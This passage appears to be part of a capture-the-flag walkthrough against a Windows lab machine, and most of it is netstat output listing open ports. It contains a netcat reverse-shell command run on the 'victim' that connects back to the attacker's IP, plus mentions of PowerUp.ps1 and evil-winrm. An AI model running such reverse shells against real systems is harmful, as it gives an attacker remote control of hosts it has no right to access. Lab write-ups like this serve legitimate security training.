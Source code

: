 In victim's machine:
```
>> nc.exe 10.10.14.16 1999 -e cmd.exe
```

Let's work now softly.

Tried PowerUp.ps1 but didn't work.https://github.com/Hackplayers/evil-winrm

Running a "netcat -ano" is a good way to see active connections:

```
C:\inetpub\wwwroot>netstat -ano
netstat -ano

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       784
  TCP    0.0.0.0:3306           0.0.0.0:0              LISTENING       1892
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       456
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       344
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       952
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       1760
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       600
  TCP    0.0.0.0:49669          0.0.0.0:0              LISTENING       584
  TCP    10.10.10.167:80        10.10.14.17:48838      ESTABLISHED     4
  TCP    10.10.10.167:80        10.10.14.17:48840      ESTABLISHED     4
  TCP    10.10.10.167:52189     10.10.14.17:1999       CLOSE_WAIT      2936
  TCP    10.10.10.167:52191     10.10.14.17:1999       ESTABLISHED     2548
  TCP    [::]:80                [::]:0                 LISTENING       4
  TCP    [::]:135               [::]:0                 LISTENING       784
  TCP    [::]:3306              [::]:0                 LISTENING       1892
  TCP    [::]:5985              [::]:0                 LISTENING       4
  TCP    [::]:47001             [::]:0                 LISTENING       4
  TCP    [::]:49664             [::]:0                 LISTENING       456
  TCP    [::]:49665             [::]:0                 LISTENING       344
  TCP    [::]:49666             [::]:0                 LISTENING       952
  TCP    [::]:49667             [::]:0                 LISTENING       1760
  TCP    [::]:49668             [::]:0                 LISTENING       600
  TCP    [::]:49669             [::]:0                 LISTENING       584
  UDP    0.0.0.0:123            *:*                                    1996
  UDP    0.0.0.0:5353           *:*                                    1228
  UDP    0.0.0.0:5355           *:*                                    1228
  UDP    0.0.0.0:53864          *:*                                    1228
  UDP    0.0.0.0:63928          *:*                                    1228
  UDP    127.0.0.1:54535        *:*                                    952
  UDP    [::]:123               *:*                                    1996
  UDP    [::]:5353              *:*                                    1228
  UDP    [::]:5355              *:*                                    1228
  UDP    [::]:53864             *:*                                    1228
  UDP    [::]:63928             *:*                                    1228
```
